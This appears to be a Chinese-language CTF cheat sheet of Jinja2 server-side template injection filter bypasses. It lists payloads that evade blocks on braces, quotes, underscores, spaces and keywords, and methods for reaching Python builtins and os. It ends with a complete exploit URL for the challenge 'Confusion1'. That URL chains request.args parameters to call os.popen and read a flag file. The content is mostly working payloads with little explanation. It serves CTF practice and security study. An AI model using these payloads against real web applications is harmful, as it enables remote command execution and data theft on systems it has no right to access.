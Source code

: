 # 常见绕过手法
	- `{{`
		- `{% if ... %}1{% endif %}`
	- 关键字
		- `{{""["\x5f\x5fclass\x5f\x5f"]}}`
	- 引号
		- `(app.__doc__|list()).pop(102)|string()`
		- `dict(buil=aa,tins=dd)|join()`
		- `["a"]`可以用`[a]`代替？
	- `+`
		- `~`
		- `__add__`
		- `"a""b"`
	- 下划线
		- `config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)`
		- `lipsum|escape|batch(22)|list|first|last`
	- 空格
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)`
	- 斜杠
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)`
	- `%`
		- `(()|safe).__doc__`里面有
	- 拼接字符串
		- `|replace('', 'b', count=1)`
	- 常见获取mro的方式被禁止
		- `namespace.mro()`
	- `__import__`
		- `__loader__.load_module("os")`
	- `__mro__`
		- `__bases__`
	- `__globals__`
		- python高版本直接使用`lipsum.__builtins__`或者`g.pop.__builtins__`拿builtins
- # 利用 request 对象绕过
	- 题目: Confusion1
	- ```
	  http://111.200.241.244:59576/a.php/{{''[request.args.clas][request.args.mo][2][request.args.sub]()[230][request.args.in][request.args.g1+request.args.g2][request.args.o+request.args.s][request.args.po+request.args.pen](request.args.cmon)[request.args.re+request.args.ad]()}}
	  ?clas=__class__
	  &mo=__mro__
	  &sub=__subclasses__
	  &in=__init__
	  &g1=__global
	  &g2=s__
	  &po=po
	  &pen=pen
	  &o=o
	  &s=s
	  &re=re
	  &ad=ad
	  &cmon=c'at' /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt
	  ```